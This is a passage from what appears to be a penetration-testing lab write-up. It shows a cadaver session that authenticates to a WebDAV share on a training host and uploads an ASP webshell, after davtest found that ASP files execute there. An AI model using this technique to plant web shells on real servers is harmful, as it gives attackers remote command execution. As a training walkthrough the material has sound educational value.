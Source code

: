 From the result of this service we identified that the file extension `asp`  can be upload and executed successfully by the davtest tool. Now that goes away we’ll use cadaver to upload our files into the target machines. 

 

```bash
┌──(root㉿INE)-[~]
└─# cadaver http://target1.ine.local/webdav                                                                                                                                              
Authentication required for target1.ine.local on server `target1.ine.local':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_5AaeXS                      0  May 21 15:16
        flag1.txt                             34  May 21 14:44
        readme.txt                            18  Dec 31 13:20
        test.asp                              61  Dec 31 14:04
        web.config                           168  Dec 31 14:08
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> 
```

![alt text](/assets/img/imaged.png)
